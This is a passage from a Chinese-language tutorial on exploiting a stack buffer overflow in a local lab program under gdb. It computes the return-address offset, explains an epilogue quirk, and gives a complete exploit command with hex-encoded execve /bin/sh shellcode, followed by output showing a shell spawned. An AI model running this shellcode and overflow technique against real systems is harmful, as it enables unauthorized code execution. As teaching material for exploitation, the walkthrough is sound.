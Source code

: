 ```
(gdb) r
Breakpoint 1, 0x565555b0 in main ()
(gdb) i r esp
esp            0xffffd1bc	0xffffd1bc
```

于是我们获知返回地址存储在内存中的`0xffffd1bc`位置。接着在`scanf`调用的指令处下断点并运行到这里。

```
(gdb) b *main+47
(gdb) c
```

这时栈顶存储了两个参数，其中`$esp`指向存储模式字符串`"%s"`的指针，`$esp+4`指向`buf`。检查这两个内存的值

```
(gdb) x/2xw $esp
0xffffd180:	0x565556c0	0xffffd190
(gdb) p *(char**)$esp
$1 = 0x565556c0 "%s"
```

于是我们获知了`buf`的地址`0xffffd190`。用返回地址的位置减去之得`0x2c`即十进制的44。因此，首先输入shellcode，然后填充至44个字节，然后输入shellcode的地址（即`buf`的地址`0xfff
fd190`）。因为shellcode长度为36字节，因此需要填充8字节。

注意到`main`函数的开头和结尾（不同环境下编译结果可能有区别，因而不存在这个问题）

```asm
0x565555b0 <+0>:		lea    0x4(%esp),%ecx
0x565555b4 <+4>:		and    $0xfffffff0,%esp
0x565555b7 <+7>:		pushl  -0x4(%ecx)
0x565555ba <+10>:	push   %ebp
0x565555bb <+11>:	mov    %esp,%ebp
0x565555bd <+13>:	push   %ebx
0x565555be <+14>:	push   %ecx...
0x565555fe <+78>:	pop    %ecx
0x565555ff <+79>:	pop    %ebx
0x56555600 <+80>:	pop    %ebp
0x56555601 <+81>:	lea    -0x4(%ecx),%esp
0x56555604 <+84>:	ret
```

堆栈指针会加四然后存在堆栈中。覆盖返回地址势必会覆盖堆栈指针，使得`lea -0x4(%ecx),%esp`指令将堆栈指针移走。所以我们用当前堆栈指针加四之后得到的值进行覆盖。这个值刚好就是返回值地址的下一个地址，也就是shellcode存放的地址，因此我们直接用`0xffffd190`填充48字节（重复12遍），紧跟着shellcode即可。

删除所有断点，重新运行程序，成功获得shell。

```
(gdb) k
(gdb) d br(gdb) r `perl -e 'print "\x90\xd1\xff\xff"x12``perl -e 'print "\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"`
`���`���`���`���`���`���`���`���`���`���`���`����[1��C��C                                                          �                                                           ��S                                                              �����/bin/shprocess 17759 is executing new program: /bin/dash$ lsoverflow.c overflow  shell.asm shell.o$ cd ..
$ exit
```
